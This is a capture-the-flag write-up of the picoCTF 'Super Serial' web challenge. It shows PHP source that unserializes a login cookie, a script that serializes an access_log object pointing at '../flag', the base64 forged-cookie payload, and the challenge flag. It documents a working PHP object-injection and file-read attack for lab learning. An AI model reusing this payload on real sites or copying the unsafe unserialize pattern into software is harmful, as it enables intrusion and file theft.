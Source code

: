 # Super Serial  →  130 Pts.

## Me and 0xManan did this challenge together and hell yeah it was worth it.

1. We land on login page.
2. Serch for robots.txt
3. Found admin.phps
4. Opened admin.phps but it says not found.
5. So tried appending phps in index also. and viewed source page.
6. Got the source code with a php code.

``` php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
$con = new SQLite3("../users.db");
$username = $_POST["user"];
$password = $_POST["pass"];
$perm_res = new permissions($username, $password);
if ($perm_res->is_guest() || $perm_res->is_admin()) {
setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
header("Location: authentication.php");
die();
} else {
$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
}
}
?>
```

1. Found the _authentication.php_ file so tried getting in it but it says Forbidden (not allowed)

2. So tried _authentication.phps_ and got a source code

```php
<?php

function __construct($lf) {
	$this->log_file = $lf;
}

function __toString() {
	return $this->read_log();
}

function append_to_log($data) {
	file_put_contents($this->log_file, $data, FILE_APPEND);
}

function read_log() {
	return file_get_contents($this->log_file);
}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
$msg = "Welcome admin";
$log = new access_log("access.log");
$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
$msg = "Welcome guest";
}
?>
```

1. So i saw that in second line we have _cookie.php_
2. Opened it and found 1 so i tried _cookie.phps_ to get the source code and it reverted back.

``` php
if(isset($_COOKIE["login"])){
try{
$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
$g = $perm->is_guest();
$a = $perm->is_admin();
}
catch(Error $e){
die("Deserialization error. ".$perm);
}
}

?>
```

1. What really caught my eye was the last part where we have a serialization info of cookie. The cookie value is URL Encoded -> Base64 Encoded -> Serialized.

2. I pasted the part of _authentication.php_ on online php editor

_script.php_

```php

<?php
class access_log
{
public $log_file;
function __construct($lf) {
	$this->log_file = $lf;
}

function __toString() {
	return $this->read_log();
}

function append_to_log($data) {
	file_put_contents($this->log_file, $data, FILE_APPEND);
}

function read_log() {
	return file_get_contents($this->log_file);
}
}

echo(serialize(new access_log("../flag")));
?>
```

1. Last line was added by me because we need a serialized value of the access.log but don't have permission to overwrite it so created a new access.log and then as per hint traversing the ../flag
2. Got the output:

`
💡 O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
`


1. Decoded to Base64 and got

_TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9_

2. Tried going to index.php and created a new cookie named "login" and value =TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9 path=/authentication.php

3. Refreshed the page and then the deserialization error got me the flag

`
💡 picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_c5123066}
`

##  MADSTACK's MADNESS HAS OFFICIALLY BEGUN NOW!!!
